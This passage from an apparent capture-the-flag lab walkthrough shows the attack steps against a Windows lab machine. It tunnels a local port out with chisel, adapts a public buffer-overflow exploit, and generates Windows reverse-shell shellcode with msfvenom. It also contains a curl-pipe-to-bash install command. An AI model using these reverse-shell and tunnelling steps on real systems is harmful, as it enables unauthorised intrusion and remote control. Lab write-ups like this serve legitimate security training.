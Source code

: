 It appears that the vulnerable software is listening under port **8888** on ``localhost``. 

### Tunneling

To remotely exploit it, We would need to use a software like **chisel** to forward the port on our own host and be able to start attacking.

I'm going to download chisel.exe from [here](https://github.com/jpillora/chisel/releases/tag/v1.7.3) and upload on the target machine the same way I used to download netcat.

You would also need to install **chisel** on your attacking machine by doing so : 
```sh
root@kali:~# curl https://i.jpillora.com/chisel! | bash
```
To initiate a chisel server and forward the local port on our host I'll use the following command in kali , where **chisel** will act as a server : 
```sh
root@kali:~# chisel server -p 9999 --reverse
2020/11/22 16:57:19 server: Reverse tunnelling enabled
2020/11/22 16:57:19 server: Fingerprint a63KtuIHgw77NOvEkBiELKD5r+XZqaveL6gaGH1SMdg=
2020/11/22 16:57:19 server: Listening on http://0.0.0.0:9999
```
Next, on the target machine where **chisel** will act as a client I'll fire the following command :
```
C:\xampp\htdocs\gym\upload>chisel.exe client 10.10.14.127:9999 R:8888:127.0.0.1:8888
2020/11/22 16:07:14 client: Connecting to ws://10.10.14.127:9999
2020/11/22 16:07:14 client: Fingerprint 3e:9b:22:0a:bc:86:88:37:da:bc:fe:ff:13:89:a9:20
2020/11/22 16:07:15 client: Connected (Latency 512.4523ms)
```
With everything already set-up now, We can try to attack the vulnerable software. 

I'm going to use the exploit from [https://www.exploit-db.com/exploits/48389](https://www.exploit-db.com/exploits/48389) which requires some modifications such as changing the shellcode in order to match with our listening port and ip.

### Exploiting the vulnerable software

Using ``searchsploit -m`` we can again copy the exploit to a more flexible path :

![bof](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/buff-writeup/bof.png)

### Generating the shellcode

To generate the shellcode I can use **msfvenom** with the following options: 
```sh
root@kali:~# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.127 LPORT=9002 EXITFUNC=thread -b "\x00\x0d\x0a" -f python
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1712 bytes
buf =  b""
buf += b"\xbb\xc4\x1c\x1b\x3a\xda\xda\xd9\x74\x24\xf4\x5a\x29"
[...]
```
